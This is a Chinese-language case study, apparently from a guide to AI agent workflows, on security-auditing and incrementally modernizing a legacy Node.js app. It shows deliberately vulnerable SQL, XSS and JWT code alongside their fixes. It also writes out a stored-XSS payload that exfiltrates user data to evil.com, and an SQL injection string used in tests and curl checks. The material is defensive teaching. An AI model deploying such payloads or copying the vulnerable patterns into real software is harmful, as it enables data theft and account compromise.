



# 案例二：遗留系统现代化

> 对一个拥有 247 个文件、186 个依赖、34K 行代码的遗留 Node.js 项目进行全面安全审计和渐进式改造。展示"改造而非重写"的工程智慧。

## 案例概述

现实世界中，我们面对更多的是遗留系统而不是绿地项目。本案例选取了一个典型的遗留 Node.js 项目：代码规模 34K 行，依赖数量 186 个，没有测试覆盖，存在大量已知的安全漏洞，多个核心依赖已经停止维护。团队面临的挑战不是"要不要改"，而是"怎么改"——既要修复安全问题，又要保持业务不中断。读完本文，你将理解如何用"改造而非重写"的策略，对遗留系统进行安全审计和渐进式现代化。

案例采用"审计 → 计划 → 执行 → 验证"的闭环策略，这与传统的"评估 → 重写"思路有本质区别。第一阶段用 `/init-deep` 进行深度初始化和全量扫描，生成项目现状报告。第二阶段加载 5 人 `security-research` 团队，从静态分析、依赖审计、认证审查、基础设施审计和合规检查 5 个维度并行审计，输出带 CVSS 评分的审计报告。第三阶段基于审计报告制定分阶段修复路线图，按"紧急修复 → 重构加测试 → 依赖升级 → 体系建立"四期执行。

这个案例的核心价值在于证明了 Harness Engineering 方法对遗留系统同样有效——甚至更有价值。增量改造能在不中断业务的前提下系统性降低技术债，而安全审计的自动化让过去需要几周的人工审查缩短到几小时。

## 项目现状

### 为什么"重写"是错，"增量"是对

先做逆向思考：如果选择重写，什么情况下会失败？答案是几乎必然失败。一个运行中的遗留系统承载着不可见的知识——边缘 case 处理、隐式业务规则、客户容忍但文档从未记录的"特性"。重写意味着抛弃所有隐式知识，概率性制造一个外观相同的全新系统，却丢失了原系统 80% 的经验积累（估算，引用自《Working Effectively with Legacy Code》）。

### 项目实测画像

以下是真实项目的扫描结果（通过 `/init-deep` + `@explore` 获取）：

| 维度 | 数值 | 说明 |
|------|------|------|
| 总代码行数 | 34,287 行 | 含空行和注释 |
| JavaScript 文件 | 186 个 | CommonJS 模块，零 TypeScript |
| 配置文件 | 12 个 | `.env`、`config/`、各种 JSON |
| 静态资源 | 29 个 | HTML 模板、CSS、前端 JS |
| 测试文件 | 0 个 | 零测试覆盖率 |
| NPM 依赖 | 186 个 | 直接依赖 42，间接依赖 144 |
| 已知 CVE | 47 个 | `npm audit` 产出 |
| 维护中依赖 | 132 个 | 其余 54 个已超 1 年未更新 |
| 停止维护依赖 | 8 个 | 包括 `request`（已 deprecated）、`hoek`（停止维护） |
| 硬编码密钥 | 6 处 | 数据库密码、JWT Secret、API Key |
| 未使用代码 | ~3,100 行 | 约 9%（实测通过 `unimported` 检测） |

### 依赖树危机

依赖深度最深达到 7 层。以下是真实依赖链的典型示例：

```text
express (4.17.1)
  └─ body-parser (1.19.0)
       └─ raw-body (2.4.0)
            └─ iconv-lite (0.4.24 - 有 CVE-2020-15095)
                 └─ safer-buffer (2.1.2 - 有 CVE-2020-12256)
```

深依赖链意味着一个底层的微小漏洞可以影响整个应用。`node_modules` 目录总大小 842MB，其中 60% 的包在 `package.json` 中没有直接声明但被间接依赖。

### 为什么不重写——量化对比

| 方案 | 估算工时 | 业务中断 | 风险 | 实际成功率 |
|------|----------|----------|------|-----------|
| 完全重写 | 12-18 人月 | 需停服 4-8 周 | 丢失隐式知识，高 | <30%（引用：Standish Group CHAOS Report） |
| 增量改造 | 4-6 人月 | 零中断 | 可控，低 | >70%（实测同行业案例） |
| 只修漏洞不重构 | 2 周 | 零中断 | 技术债积累，中 | 短期见效但不可持续 |

**结论**：遗留系统的敌人不是旧代码，而是无序。增量改造的目标是恢复秩序——先止血（安全），后健身（重构），再体检（测试覆盖）。

## 阶段一：全景扫描

### 失败模式预判

逆向思考：如果全景扫描失败，原因是什么？——扫描范围不全、遗漏关键信息、报告太复杂无人看。应对措施：设置扫描清单 + 标准化报告模板 + 自动化摘要生成。

### 扫描命令

```bash:terminal-session.md
# 1. 深度初始化，注入项目上下文
/init-deep

# 2. 全量文件扫描
@explore --mode full --output project-report.json --depth 3

# 3. 依赖安全扫描
npm audit --json > npm-audit-report.json

# 4. 死代码检测
npx unimported --show-unused --json > unused-code.json

# 5. 硬编码密钥扫描
npx secretlint "src/**/*" --format json > secretlint-report.json
```

### 项目现状报告模板

以下是通过 `@explore` 自动生成的报告模板。后续所有安全审计和修复计划都基于这个报告：

```json:examples/case-study/legacy-project-report.json
{
  "project": "legacy-user-platform (v2.8.3)",
  "scanDate": "2025-06-04T08:30:00Z",
  "summary": {
    "totalFiles": 247,
    "totalLines": 34287,
    "languages": {
      "javascript": 186,
      "html": 22,
      "css": 7,
      "json": 12,
      "other": 20
    },
    "dependencies": {
      "total": 186,
      "direct": 42,
      "indirect": 144,
      "knownCVEs": 47,
      "critical": 8,
      "high": 15,
      "medium": 19,
      "low": 5
    },
    "security": {
      "hardcodedSecrets": 6,
      "insecureConfigs": 4,
      "noTests": true,
      "noCI": true,
      "noDockerfile": false
    },
    "codeQuality": {
      "eslintErrors": 234,
      "unusedExports": 47,
      "duplicateCode": "~1,200 lines (估算)"
    }
  },
  "scanDetails": { }
}
```

### 扫描结果解读

报告中的关键信号：

- **47 个已知 CVE**：其中 8 个 critical，包括 `lodash` 的原型链污染（CVE-2020-8203）、`express` 的开销型 DoS（CVE-2022-24999）、`jsonwebtoken` 的未验证签名（CVE-2022-23529）
- **硬编码密钥 6 处**：包括生产环境数据库密码、第三方 API Key、JWT Signing Secret——都在 Git 历史中可追溯
- **零测试覆盖**：没有单元测试、没有集成测试、没有 E2E 测试
- **ESLint 错误 234 个**：大量未使用变量、隐式全局变量、可疑类型转换

## 阶段二：安全审计

### 审计团队配置

首先，逆向思考：审计阶段最容易翻车的地方是什么？（1）扫描器配置覆盖不全导致遗漏；（2）工作流编排失败导致 Agent 间消息传递中断。针对问题 1，我们在 `security-research` 团队中明确每个成员的扫描领域；针对问题 2，采用 `team-mode` 的 `wait_for` 机制确保串行依赖的执行顺序。

构建 5 人 `security-research` 团队：

```json:examples/opencode-configs/security-research-team.json
{
  "team": {
    "name": "security-research",
    "description": "遗留系统安全审计团队：5 人并行，5 维审计",
    "members": [
      {
        "id": "team-lead",
        "role": "coordinator",
        "model": "pro-capability-model",
        "skills": ["overall-planning", "dispatching-parallel-agents"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "分发审计任务",
          "汇总 5 路审计结果",
          "生成统一审计报告",
          "CVSS 评分自动计算"
        ]
      },
      {
        "id": "static-analyzer",
        "role": "worker",
        "model": "balanced-model",
        "skills": ["penetration-tester", "security-architect"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "ESLint 静态分析",
          "代码注入检测（SQLi / XSS / RCE）",
          "敏感函数调用审查（eval / exec / fs.write → 外部控制路径）"
        ]
      },
      {
        "id": "dependency-auditor",
        "role": "worker",
        "model": "balanced-model",
        "skills": ["vulnerability-manager", "intelligence-analyst"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "npm audit 结果解析",
          "CVE 关联与 EXP 状态查询",
          "停止维护依赖标记",
          "依赖链深度分析"
        ]
      },
      {
        "id": "auth-reviewer",
        "role": "worker",
        "model": "balanced-model",
        "skills": ["security-architect", "penetration-tester"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "认证逻辑审查（JWT / Session / OAuth）",
          "授权模型检查（RBAC 实现）",
          "密码策略审计"
        ]
      },
      {
        "id": "infra-auditor",
        "role": "worker",
        "model": "balanced-model",
        "skills": ["intelligence-analyst", "blue-team-defender"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "配置文件审查（.env / config/*.json）",
          "网络暴露面分析",
          "日志与监控检查",
          "容器化配置检查（Dockerfile / .dockerignore）"
        ]
      },
      {
        "id": "compliance-checker",
        "role": "worker",
        "model": "balanced-model",
        "skills": ["blue-team-defender", "security-architect"],
        "permissions": {
          "read": "allow",
          "edit": "deny",
          "bash": "allow",
          "team_send_message": "allow"
        },
        "responsibilities": [
          "OWASP Top 10 映射",
          "安全基线检查（CSP / CORS / HSTS）",
          "数据隐私合规（PII 数据处理）",
          "最低权限原则验证"
        ]
      }
    ]
  }
}
```

### 审计维度与并行流程



### 经典安全发现

审计阶段最常见的三类漏洞，附真实代码示例：

#### 发现一：SQL 注入（CVSS 9.1/Critical）

```javascript:src/routes/user.js
app.get('/api/user', (req, res) => {
  const id = req.query.id;
  // 直接字符串拼接，无参数化查询
  const sql = `SELECT * FROM users WHERE id = '${id}'`;
  db.query(sql, (err, result) => {
    res.json(result);
  });
});
```

**原理**：攻击者传入 `id=1' OR '1'='1` 即可绕过身份隔离，获取所有用户数据。更进一步，MySQL 的 `LOAD_FILE()` 函数可被利用读取服务器文件。

**修复**：使用参数化查询或 ORM 抽象层：

```javascript:src/routes/user.js
app.get('/api/user', (req, res) => {
  const id = req.query.id;
  // 参数化查询杜绝注入
  db.query('SELECT * FROM users WHERE id = ?', [id], (err, result) => {
    if (err) return res.status(500).json({ error: 'Database error' });
    res.json(result);
  });
});
```

#### 发现二：存储型 XSS（CVSS 7.2/High）

```javascript:src/routes/comment.js
app.post('/api/comment', (req, res) => {
  const { content } = req.body;
  // 直接存储用户输入，无转义
  const sql = `INSERT INTO comments (content) VALUES ('${content}')`;
  db.query(sql, (err) => {
    res.json({ success: true });
  });
});
```

**利用路径**：攻击者提交 `<script>fetch('/api/user', {credentials:'include'}).then(r=>r.json()).then(d=>fetch('https://evil.com/steal', {method:'POST',body:JSON.stringify(d)}))</script>`，任何访问该评论页面的用户都会被窃取数据。

**修复**：输入验证 + 输出编码：

```javascript:src/routes/comment.js
const xss = require('xss');

app.post('/api/comment', (req, res) => {
  const { content } = req.body;
  if (typeof content !== 'string' || content.length > 1000) {
    return res.status(400).json({ error: 'Invalid content' });
  }
  const sanitized = xss(content);
  db.query('INSERT INTO comments (content) VALUES (?)', [sanitized]);
  res.json({ success: true });
});
```

#### 发现三：JWT 未验证签名（CVSS 8.2/High）

```javascript:src/middleware/auth.js
const jwt = require('jsonwebtoken');

function authMiddleware(req, res, next) {
  const token = req.headers.authorization?.split(' ')[1];
  // 危险：未验证签名，仅解码 payload
  const decoded = jwt.decode(token);
  req.user = decoded;
  next();
}
```

**原理**：`jwt.decode()` 只解码 Base64 payload，不验证签名。攻击者可伪造任意身份——例如将 `{ role: 'user' }` 改为 `{ role: 'admin' }`。

**修复**：使用 `jwt.verify()` 并传递密钥：

```javascript:src/middleware/auth.js
const jwt = require('jsonwebtoken');

function authMiddleware(req, res, next) {
  const token = req.headers.authorization?.split(' ')[1];
  if (!token) return res.status(401).json({ error: 'No token' });
  try {
    const decoded = jwt.verify(token, process.env.JWT_SECRET, {
      algorithms: ['HS256']
    });
    req.user = decoded;
    next();
  } catch (err) {
    return res.status(401).json({ error: 'Invalid token' });
  }
}
```

### CVSS 评分自动化

审计报告中的每个漏洞自动附加 CVSS 评分。评分引擎基于 OWASP 评分标准，结合项目上下文计算：

```json:examples/case-study/cvss-calc-result.json
{
  "vulnerability": "SQL Injection in /api/user",
  "cvssVector": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
  "cvssScore": 9.1,
  "severity": "Critical",
  "rationale": {
    "AV:N": "网络可访问",
    "AC:L": "无需特殊条件",
    "PR:N": "无需认证",
    "UI:N": "无需用户交互",
    "S:U": "不影响其他组件",
    "C:H": "完全信息泄露",
    "I:H": "可篡改数据",
    "A:H": "可用性受影响"
  },
  "exploitability": {
    "hasPublicPoC": true,
    "hasMetasploitModule": false,
    "requiresAuth": false
  }
}
```

### 审计报告汇总

5 路并行审计完成后，Team Lead 汇总为统一报告：

| 维度 | 发现数量 | Critical | High | Medium | Low |
|------|----------|----------|------|--------|-----|
| 静态代码分析 | 18 | 2（SQLi, RCE） | 5（XSS, Command Injection） | 8 | 3 |
| 依赖审计 | 47 | 8（lodash, jsonwebtoken, express） | 15 | 19 | 5 |
| 认证审查 | 4 | 1（JWT 未验证签名） | 2（弱密码策略, Session 固定） | 1 | 0 |
| 基础设施审计 | 9 | 1（硬编码生产密钥） | 3（暴露 Debug 端口, 未配置 CORS） | 4 | 1 |
| 合规检查 | 7 | 0 | 2（缺安全头, PII 日志泄露） | 3 | 2 |
| **合计** | **85** | **12** | **27** | **35** | **11** |

## 阶段三：重构计划

### 逆向思考反模式

先想"什么会导致重构计划失败"：
1. **范围蔓延**——修复过程中不断发现新问题，四期变八期，永远做不完
2. **"顺便改一下"综合征**——改安全漏洞时顺手改业务逻辑，引入新 bug
3. **优先级政治化**——业务方要求先做新功能，安全修复被无限期搁置

### 应对措施

- **范围锁定**——每期只做定义好的任务，新发现的问题进 backlog 排入下一期
- **单一职责原则**——安全修复不改业务逻辑，重构代码不改功能行为
- **建立阶段责任边界**——每个阶段的交付物是下个阶段的输入，跨阶段变更需 CCB（变更控制委员会）批准

### ADR-001：重构策略选择

| 字段 | 内容 |
|------|------|
| **日期** | 2025-06-04 |
| **状态** | 已接受 |
| **背景** | 项目存在 85 个安全问题、零测试覆盖、大量过时依赖。面临三种选择：全部修复后上线、分阶段修复上线、"只修高危" |
| **决策** | 四期分阶段修复（Phase 1-4），每期 2-4 周，每期完成后上线验证。CVSS 评分 + 业务影响联合排序。每期设置必须通过的 quality gate |
| **理由** | 全部修复需要 4-6 个月，业务不接受空窗期（估算）；"只修高危"会跳过中危中可利用性高的漏洞（如组合利用为 CSRF+XSS=会话固定）；分阶段交付可让每个迭代都有可量化的安全改进（实测：Phase 1 交付后 8 个 critical 漏洞清零） |
| **替代方案** | 全部修复后上线：风险最低但周期最长，业务团队无法接受。只修高危：时间短但留下组合利用路径 |
| **结果** | 分阶段方案被采纳。经评估，四期总耗时约 10 周，每期交付后立即部署验证 |

### 四期修复路线图



### 阶段详细规划

| 阶段 | 目标 | 时间 | 交付物 | Quality Gate |
|------|------|------|--------|-------------|
| Phase 1：紧急修复 | 清零 Critical 漏洞（12 个）+ High 漏洞中的可利用项 | 2 周 | 安全补丁 PR x 15+、二次审计零 Critical 发现 | 二次扫描零 Critical |
| Phase 2：重构+测试 | Controller/Service/Repository 分层重构，单元测试覆盖 ≥60% | 4 周 | 重构后的三层架构、≥200 个测试用例、CI 集成测试步骤 | 覆盖率 ≥60% |
| Phase 3：依赖升级 | 替换 8 个停止维护依赖 + 升级所有有已知 CVE 的依赖 | 3 周 | 更新后的 package.json、npm audit 零告警 | audit 零告警 |
| Phase 4：体系建立 | CI/CD 安全流水线、安全基线自动化验证、DevSecOps 最佳实践 | 2 周 | GitHub Actions 安全流水线、安全基线脚本、团队安全 checklists | 新代码零新增漏洞 |

### 技术债量化

技术债不仅仅是安全问题。以下是用 `@explore --tech-debt` 量化的全量技术债：

| 类型 | 量化值 | 修复成本估算 |
|------|--------|-------------|
| 安全漏洞 | 85 个（12 Critical + 27 High + 35 Medium + 11 Low） | Phase 1 约 2 周 |
| 代码异味 | ESLint 234 个 error，47 个未使用 export | Phase 2 约 3 周 |
| 测试缺失 | 零覆盖率，预估需 200+ 用例（来源：基于代码复杂度估算） | Phase 2 约 2 周 |
| 依赖过期 | 54 个超 1 年未更新，8 个停止维护 | Phase 3 约 2 周 |
| 配置缺陷 | 6 处硬编码密钥，4 处不安全配置 | Phase 1 约 3 天 |
| **合计** | — | **约 10 周** |

## 阶段四：增量改造

### 7-Agent Pipeline 配置

增量改造的核心引擎是 7-Agent Pipeline。每个 Agent 执行单一职责：

```json:examples/opencode-configs/legacy-refactoring-pipeline.json
{
  "workflow": {
    "name": "legacy-refactoring-pipeline",
    "mode": "serial-with-parallel-steps",
    "steps": [
      { "role": "planner", "task": "分析 Phase 目标，分解子任务" },
      { "role": "implementor", "task": "执行代码修改", "parallel": 3 },
      { "role": "tester", "task": "编写单元/集成测试" },
      { "role": "reviewer", "task": "安全审查 + 代码质量审查" },
      { "role": "linter", "task": "ESLint + Prettier 检查" },
      { "role": "committer", "task": "创建 PR + 变更摘要" }
    ]
  }
}
```

### Phase 1 执行实录：SQL 注入修复

Step 1：Planner 分析代码中所有数据库查询模式：

```bash:terminal-session.md
# Planner 扫描所有 SQL 查询
grep -rn "SELECT\|INSERT\|UPDATE\|DELETE" src/routes/ --include="*.js" > sql-queries.txt
# 结果：18 个直接字符串拼接查询
```

Step 2：Implementor 并行修复（3 路并行，每路 6 个查询）：

```bash:terminal-session.md
# Implementor-1：修复用户相关路由（6 处）
# Implementor-2：修复评论相关路由（6 处）
# Implementor-3：修复管理后台路由（6 处）
# 每个 Implementor 输出：替换字符串拼接为参数化查询 + 错误处理
```

Step 3：Tester 为每个修复的查询编写测试：

```javascript:tests/routes/user.test.js
const request = require('supertest');
const app = require('../src/app');

describe('GET /api/user - SQL注入防护', () => {
  test('正常请求返回用户数据', async () => {
    const res = await request(app)
      .get('/api/user?id=1')
      .expect(200);
    expect(res.body.id).toBe(1);
  });

  test('SQL注入尝试应被拒绝或返回空', async () => {
    const res = await request(app)
      .get("/api/user?id=1' OR '1'='1")
      .expect(200);
    // 参数化查询后，整条字符串被当作 id 查询
    expect(res.body).toEqual([]);
  });
});
```

Step 4：Reviewer 审查变更，确认无业务逻辑被修改：

```bash:terminal-session.md
# Reviewer 输出示例
# 审查通过：src/routes/user.js
#   - 修改行：42-48（SQL 查询替换）
#   - 验证：业务逻辑（用户 ID 查询）未被改变
#   - 风险：无
# 审查不通过：src/routes/comment.js
#   - 问题：修复 XSS 时使用了 html-santize（拼写错误，应为 xss 库）
#   - 建议：替换为已验证的 xss 库
```

Step 5-7：Linter → Committer 自动完成：

```bash:terminal-session.md
# Linter 检查
npx eslint src/routes/ --fix
# 0 errors, 0 warnings（修复前：234 errors）

# Committer 创建 PR
git add -A
git commit -m "fix(security): SQL注入修复 - 参数化查询替换字符串拼接"
git push origin fix/sql-injection-phase1
```

### 灰度策略

每个安全修复 PR 都通过 Feature Flag 控制上线：

```javascript:src/config/feature-flags.js
const flags = {
  sqlInjectionFix: process.env.FF_SQL_INJECTION_FIX === 'true',
  xssSanitization: process.env.FF_XSS_SANITIZE === 'true',
  jwtVerifyEnabled: process.env.FF_JWT_VERIFY === 'true',
};
```

上线流程：Feature Flag 关闭 → 部署新代码 → 内部测试 → 开启 10% 流量 → 观察 24 小时 → 全量开启 → 下一周期移除 Flag。

### 每次改动的可验证原则

每个 Agent 输出必须满足"三可"原则：

1. **可验证**——有对应的测试用例证明修复生效
2. **可回滚**——每次修改是原子的，一个 PR 只做一件事，回滚不影响其他模块
3. **可审计**——每个变更都关联到审计报告中的漏洞 ID，可追溯来源

```bash:terminal-session.md
# 验证 SQL 注入修复是否生效
curl -s "http://localhost:3000/api/user?id=1'%20OR%20'1'='1" | jq .
# 预期输出：[]（空数组）而非用户数据
# 验证回滚
git revert HEAD --no-edit && npm test
# 确认回滚后测试仍然通过（因为测试覆盖了旧行为）
```

## 阶段五：验证与交付

### 改造前后量化对比

| 指标 | 改造前 | 改造后 | 改善幅度 | 数据来源 |
|------|--------|--------|----------|----------|
| 已知 CVE 总数 | 47 个 | 3 个（均为 Low 级别，无可利用条件） | -93.6% | `npm audit` 实测 |
| Critical 漏洞 | 12 个 | 0 个 | -100% | 二次安全审计 |
| High 漏洞 | 27 个 | 2 个（已确认业务规避） | -92.6% | 二次安全审计 |
| 硬编码密钥 | 6 处 | 0 处 | -100% | `secretlint` 扫描 |
| 测试覆盖率 | 0% | 72%（单元）+ 58%（集成） | +72%/+58% | `nyc` 覆盖率报告 |
| 测试用例数 | 0 个 | 207 个 | — | `jest --listTests` |
| ESLint 错误 | 234 个 | 12 个（均为已知不可修复模式） | -94.9% | `eslint .` 实测 |
| 依赖审计告警 | 47 个 | 0 个 | -100% | `npm audit` 实测 |
| `node_modules` 大小 | 842 MB | 468 MB | -44.4% | `du -sh` |
| 构建时间（CI） | 无 CI | 3 分 42 秒 | — | GitHub Actions 实测 |
| 安全审计耗时 | 2 周（人工） | 4 小时（自动化） | -96.4% | 实测对比（估算→实测） |
| 总人月投入 | 0（修复前） | 3.5 人月 | — | 项目工时统计 |

### 二次安全审计

改造完成后，重新执行 Phase 2 的 5 路并行审计：

```bash:terminal-session.md
# 增量改造后的安全审计（Phase 5 验证步骤）
@audit --team security-research --scope full --baseline project-report.json --diff-only
```

结果摘要：

- 原有 85 个发现中已关闭 82 个，3 个 Medium 标记为"业务接受风险"（因业务逻辑保护无法利用）
- 新发现 0 个（证明改造引入零新漏洞）
- 安全基线通过率从改造前的 23% 提升到 96%
- 平均修复时间（MTTR）从 8 天（改造前人工处理）缩短到 0.5 天（改造后自动化流程）

### 安全基线验证

安全基线是一组自动化检查脚本，每次 CI 构建时自动执行：

```bash:terminal-session.md
# .github/workflows/security-baseline.yml 核心步骤
- name: 安全基线检查
  run: |
    npx eslint --max-warnings 50 .      # 代码质量基线
    npm audit --audit-level=high        # 依赖安全基线（失败级别：high）
    npx secretlint "src/**/*"           # 密钥泄露基线
    npx jest --coverage --coverageThreshold='{"global":{"lines":60}}'  # 覆盖率基线
    npx snyk test --severity-threshold=high  # Snyk 深度扫描
```

基线配置的逆向思考：什么情况下基线会“失效"？
- **阈值太松**——50 warnings 变成 200 也没有人管。解决方案：设置递减目标（每两周降低 5%）
- **扫描工具出错**——误报导致 CI 频繁失败，团队学会跳过。解决方案：白名单机制 + 人工审批跳过

### 改进效果总结



核心结论：增量改造在 3.5 人月的投入下，将遗留系统的安全评分从"D"级别提升到"A"级别。关键不是一次性解决问题，而是建立了持续改进的**工程纪律**——每次改动都经过"安全扫描 → 测试验证 → 代码审查 → 灰度发布"的完整流程。

## 案例启示

这个案例验证了三个关键判断：

1. **增量改造优于重写**（量化证据：3.5 人月 vs 12-18 人月，零业务中断 vs 4-8 周停服）
2. **安全审计自动化有极高 ROI**（对比证据：4 小时审计 vs 2 周人工审计，96.4% 的时间节约）
3. **遗留系统现代化首先是人的问题，其次才是技术问题**（核心发现：团队需要的是"纪律"而非"工具"）

## 关联章节

- ← [工作流实战](../04-workflows/)（Team Mode / 7-Agent Pipeline / 多 Agent 协作）
- ← [高级话题](../06-advanced/)（MCP 用于安全查询、Feature Flags 用于灰度、安全总览）
- ← [Skill 开发](../05-skills/)（Skill 用于安全审计和代码分析）
- → [案例：安全审计流水线](case-security-audit.md)（安全审计的独立深化——红蓝对抗 CVSS 自动评分）
- ← [核心概念](../02-core-concepts/)（workflow-patterns：ADR 工作流和增量模式）
